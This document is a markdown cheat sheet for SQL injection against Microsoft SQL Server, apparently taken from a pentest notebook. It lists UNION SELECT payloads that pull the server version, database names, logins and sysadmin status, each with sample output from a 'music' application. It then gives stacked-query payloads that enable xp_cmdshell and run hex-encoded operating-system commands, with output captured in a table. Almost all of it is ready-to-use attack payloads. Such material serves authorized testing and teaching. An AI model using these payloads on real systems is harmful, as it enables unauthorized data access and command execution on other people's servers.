 # MSSQL

[http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)  
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)

## UNION SELECT

### Getting version

```text
' UNION SELECT (SELECT @@version),2 --
```

Song name: Microsoft SQL Server 2012 - 11.0.2100.60 \(X64\) Feb 10 2012 19:39:15 Copyright \(c\) Microsoft Corporation Express Edition \(64-bit\) on Windows NT 6.2 \(Build 9200: \) \(Hypervisor\) - From the year: 2

### Getting current DB:

```text
' UNION SELECT (SELECT DB_NAME()),2 --
```

Song name: music - From the year: 2

### Getting current user:

Song name: dbo - From the year: 2

### Is our user a sysadmin:

```text
' UNION SELECT (SELECT is_srvrolemember('sysadmin')),2 --
```

Song name: **1** - From the year: 2  
\(returns 1 for true, 0 for false\)

### Listing databases:

```text
' UNION SELECT (SELECT DB_NAME(N)),2 --
```

Increment N to go through all the databases.

Song name: master - From the year: 2  
Song name: tempdb - From the year: 2  
Song name: model - From the year: 2  
Song name: msdb - From the year: 2  
Song name: music - From the year: 2

#### Using CAST:

```text
' UNION ALL SELECT CAST(name AS NVARCHAR(4000)),NULL FROM master..sysdatabases--
```

Song name: master - From the year:  
Song name: tempdb - From the year:  
Song name: model - From the year:  
Song name: msdb - From the year:  
Song name: music - From the year:

### Listing users using CAST:

```text
' UNION ALL SELECT CAST(name AS NVARCHAR(4000)),NULL FROM master..syslogins--
```

Song name: sa - From the year:  
Song name: \#\#MS\_SQLResourceSigningCertificate\#\# - From the year:  
Song name: \#\#MS\_SQLReplicationSigningCertificate\#\# - From the year:  
Song name: \#\#MS\_SQLAuthenticatorCertificate\#\# - From the year:  
Song name: \#\#MS\_PolicySigningCertificate\#\# - From the year:  
Song name: \#\#MS\_SmoExtendedSigningCertificate\#\# - From the year:  
Song name: \#\#MS\_PolicyEventProcessingLogin\#\# - From the year:  
Song name: \#\#MS\_PolicyTsqlExecutionLogin\#\# - From the year:  
Song name: \#\#MS\_AgentSigningCertificate\#\# - From the year:  
Song name: \*\*\Administrator - From the year:  
Song name: NT SERVICE\SQLWriter - From the year:  
Song name: NT SERVICE\Winmgmt - From the year:  
Song name: NT SERVICE\MSSQL$SQLEXPRESS - From the year:  
Song name: BUILTIN\Users - From the year:  
Song name: NT AUTHORITY\SYSTEM - From the year:

## xp\_cmdshell

### Checking if our user is a sysadmin

```text
' UNION SELECT (SELECT is_srvrolemember('sysadmin')),2 --
```

Running xp-cmdshell and getting the output.

### Enabling xp\_cmdshell

```text
';EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

### Running commands

#### Setting up the table:

```text
';CREATE TABLE sqlmapoutput(id INT PRIMARY KEY IDENTITY, data NVARCHAR(4000))--
```

#### Running the command:

@cmd= {hex encoded command}

For example whoami -- &gt; **0x**77686f616d69

```text
';DECLARE @cmd VARCHAR(8000);SET @cmd=0x77686f616d69;INSERT INTO sqlmapoutput(data) EXEC master..xp_cmdshell @cmd--
```

Will insert command output into the sqlmapout table.

#### Reading the output:

```text
' UNION ALL SELECT CAST(data AS NVARCHAR(4000)),NULL FROM sqlmapoutput--
```

#### Deleting the table:

```text
';DELETE FROM sqlmapoutput--
```

#### Drop the table:

```text
';DROP TABLE sqlmapoutput--
```

